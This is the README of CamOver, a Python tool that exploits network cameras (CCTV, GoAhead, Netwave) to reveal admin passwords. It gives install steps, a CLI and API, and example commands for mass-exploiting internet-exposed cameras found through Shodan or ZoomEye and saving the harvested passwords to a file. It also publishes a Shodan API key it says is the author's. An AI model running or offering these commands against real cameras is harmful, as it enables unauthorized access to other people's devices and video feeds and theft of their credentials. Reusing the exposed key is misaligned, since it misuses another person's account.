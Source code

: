 # CamOver

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver/forks">
        <img src="https://img.shields.io/github/forks/EntySec/CamOver?color=green">
    </a>
    <a href="https://github.com/EntySec/CamOver/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/CamOver?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/CamOver">
        <img src="https://www.codefactor.io/repository/github/EntySec/CamOver/badge" />
    </a>
</p>

CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

## Features

* Exploits vulnerabilities in most popular camera models such as `CCTV`, `GoAhead` and `Netwave`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Basic usage

To use CamOver just type `camover` in your terminal.

```
usage: camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]
               [--zoomeye ZOOMEYE] [-p PAGES]

CamOver is a camera exploitation tool that allows to disclosure network camera
admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

**Exploiting single camera**

Let's hack my camera just for fun.

```shell
camover -a 192.168.99.100
```

**Exploiting cameras from Internet**

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```shell
camover -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own,
be free to use all our resources for free :)

**Exploiting cameras from input file**

Let's try to use opened database of cameras with `-t` for fast exploitation.

```shell
camover -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords
to `passwords.txt`.

## API usage

CamOver also has their own Python API that can be invoked by importing CamOver to your code.

```python
from camover import CamOver
```

### Basic functions

There are all CamOver basic functions that can be used to exploit specified camera.

* `exploit(address)` - Exploit single camera by given address.

### Examples

**Exploiting single camera**

```python
from camover import CamOver

camover = CamOver()
creds = camover.exploit('192.168.99.100')

print(creds)
```
